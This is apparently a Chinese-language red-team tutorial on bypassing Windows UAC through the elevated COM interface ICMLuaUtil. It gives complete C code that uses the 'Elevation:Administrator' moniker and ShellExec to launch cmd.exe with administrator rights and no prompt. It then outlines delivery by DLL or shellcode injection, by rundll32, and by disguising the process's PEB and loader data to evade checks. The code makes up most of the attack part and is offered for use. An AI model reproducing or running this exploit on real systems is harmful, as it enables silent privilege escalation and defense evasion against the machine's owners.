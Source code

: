 # 通过com组件BypassUAC

## COM组件简介

> COM component（COM组件）是微软公司为了计算机工业的软件生产更加符合人类的行为方式开发的一种新的软件开发技术。在COM构架下，人们可以开发出各种各样的功能专一的组件，然后将它们按照需要组合起来，构成复杂的应用系统。

com组件本质上是二进制文件\(dll、exe,在windows系统内\),其调用方法与c++的类相似，程序可以通过被称为CLSID\(全局标识符\)作为索引在注册表内找到具体的二进制文件，这篇文章只会介绍应用方法，具体的逆向分析会在之后的文章内详细解释\(等公司买正版ida,现在用的盗版就不拿出来丢人了\)。

windows提供了一种com组件提权的方法，其原意大概是为了方便开发，所以当这种提提权方法的调用者是拥有微软签名的合法程序时\(其本质是校验PEB\)，会忽略uac弹窗，这也为了我们利用该技术埋下了隐患。

```text
HRESULT CoCreateInstanceAsAdmin(HWND hwnd, REFCLSID rclsid, REFIID riid, __out void ** ppv)
{
    BIND_OPTS3 bo;
    WCHAR  wszCLSID[50];
    WCHAR  wszMonikerName[300];

    StringFromGUID2(rclsid, wszCLSID, sizeof(wszCLSID)/sizeof(wszCLSID[0])); 
    HRESULT hr = StringCchPrintf(wszMonikerName, sizeof(wszMonikerName)/sizeof(wszMonikerName[0]), L"Elevation:Administrator!new:%s", wszCLSID);
    if (FAILED(hr))
        return hr;
    memset(&bo, 0, sizeof(bo));
    bo.cbStruct = sizeof(bo);
    bo.hwnd = hwnd;
    bo.dwClassContext  = CLSCTX_LOCAL_SERVER;
    return CoGetObject(wszMonikerName, &bo, riid, ppv);
}
```

在com组件中，有一个名为ICMLuaUtil的接口，这个接口提供了一个名为ShellExec的方法，顾名思义，可以执行任意传入的命令，如果我们能用提权的ICMLuaUtil接口调用ShellExec，那么我们就能获得一个不受限的管理员令牌。

## 流程

1. 初始化com库
2. 创建提升权限的ICMLuaUtil接口
3. 调用ICMLuaUtil的ShellExec方法
4. 弹出一个高权限的calc\(串戏了\)。

## 代码

```text
#include "BypassUAC.h"

HRESULT CoCreateInstanceAsAdmin(HWND hwnd, REFCLSID rclsid, REFIID riid, __out void** ppv)
{

	BIND_OPTS3 bo;
	WCHAR  wszCLSID[50];
	WCHAR  wszMonikerName[300];

	StringFromGUID2(rclsid, wszCLSID, sizeof(wszCLSID) / sizeof(wszCLSID[0]));
	HRESULT hr = StringCchPrintf(wszMonikerName, sizeof(wszMonikerName) / sizeof(wszMonikerName[0]), L"Elevation:Administrator!new:%s", wszCLSID);
	if (FAILED(hr))
		return hr;
	memset(&bo, 0, sizeof(bo));

	bo.cbStruct = sizeof(bo);
	bo.hwnd = hwnd;
	bo.dwClassContext = CLSCTX_LOCAL_SERVER;
	return CoGetObject(wszMonikerName, &bo, riid, ppv);
}

BOOL CMLuaUtilBypassUAC(LPWSTR lpwszExecutable)
{
	HRESULT hr = 0;
	CLSID clsidICMLuaUtil = { 0 };
	IID iidICMLuaUtil = { 0 };
	ICMLuaUtil* CMLuaUtil = NULL;
	BOOL bRet = FALSE;


	CLSIDFromString(CLSID_CMSTPLUA, &clsidICMLuaUtil);
	IIDFromString(IID_ICMLuaUtil, &iidICMLuaUtil);

	CoCreateInstanceAsAdmin(NULL, clsidICMLuaUtil, iidICMLuaUtil, (PVOID*)(&CMLuaUtil));
	hr = CMLuaUtil->lpVtbl->ShellExec(CMLuaUtil, lpwszExecutable, NULL, NULL, 0, SW_SHOW);
	CMLuaUtil->lpVtbl->Release(CMLuaUtil);

	if (GetLastError())
	{
		return FALSE;
	}
	else {
		return TRUE;	
	}
}

int main() {
	CoInitialize(NULL);

	CMLuaUtilBypassUAC((LPWSTR)L"c:\\windows\\system32\\cmd.exe");
	CoUninitialize();
	return 0;
}
```



![](../.gitbook/assets/image%20%28141%29.png)

## 利用方法

### shellcode&dll注入

把这个代码写成一个dll，然后通过进程注入的方式获得一个合法的进程环境。

shellcode注入和dll注入差不多，只不过注入的具体dll被打成了shellcode，我记得有这么一个开源项目可以做到，原理类似于在dll二进制代码前写一个加载器

### rundll32

![](../.gitbook/assets/image%20%28142%29.png)

rundll32是windows提供的一个合法exe，它能把一个单独的dll拉起来成为一个进程，这也起来的进程也被windows视为合法。

### 伪装进程

原理我之前的文章写过[fakecommandline](../defense-evasion/fake-commandline.md)，这篇文章的基础上再添加对ldr的伪装，就能绕过PSAPI对进程的校验，具体的代码三号学生大佬写过[this](https://3gstudent.github.io/3gstudent.github.io/%E9%80%9A%E8%BF%87COM%E7%BB%84%E4%BB%B6IFileOperation%E8%B6%8A%E6%9D%83%E5%A4%8D%E5%88%B6%E6%96%87%E4%BB%B6/)。

## LINKS





